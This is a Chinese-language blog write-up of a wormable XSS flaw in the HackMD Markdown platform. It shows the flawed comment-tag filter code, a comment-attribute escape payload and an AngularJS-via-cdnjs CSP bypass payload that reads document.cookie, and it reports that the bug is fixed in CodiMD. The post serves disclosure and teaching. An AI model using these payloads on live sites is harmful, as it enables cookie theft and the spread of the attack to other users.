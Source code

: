 ```yaml
---
date: 2025-08-06T13:58:10+08:00
title: "HackMD上的可蠕虫化XSS漏洞分析与利用"
tags: [XSS, 网络安全, CSP绕过, 漏洞挖掘]
authors: qife
description: "本文详细分析了HackMD平台上一个有趣的XSS漏洞，该漏洞可通过注释标签属性逃逸和CSP策略绕过实现蠕虫式传播，并提供了完整的漏洞利用代码。"
---
```


# HackMD上的可蠕虫化XSS漏洞

在Web安全领域，我通常更偏爱服务器端漏洞而非客户端漏洞（当然能直接获取shell的客户端漏洞除外XD）。但这次发现的XSS漏洞确实有些特别，因此决定分享这个有趣的发现。

## 漏洞背景

HackMD是一款由台湾开发者打造的Markdown协作平台，被COSCUP、g0v、HITCON等知名研讨会用作官方共笔平台，甚至还是Ethereum的协作平台。其开源代码在GitHub上获得了4500多颗星。

## 漏洞成因

漏洞位于HackMD前端渲染Markdown时的XSS防御机制中。平台使用npm/xss库进行防护，但在处理HTML注释标签时存在缺陷：

```javascript
onIgnoreTag: function (tag, html, options) {
    if (tag === '!--') {
        return html  // 不过滤注释属性
    }
}
```

通过构造特殊注释标签可绕过过滤：
```html
<!-- foo="bar--> <s>Hi</s>" -->
```

## CSP绕过

HackMD实施了严格的内容安全策略(CSP)，但允许加载cdnjs.cloudflare.com的脚本。利用AngularJS库可以轻松绕过：

```html
<!-- foo="-->
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js>
</script>
<div ng-app>
    {{constructor.constructor('alert(document.cookie)')()}}
</div>
//sssss" -->
```

## 漏洞影响

当攻击者与受害者同时编辑同一份文档时，可对所有查看者实施攻击。该漏洞已在最新版CodiMD中修复。

---

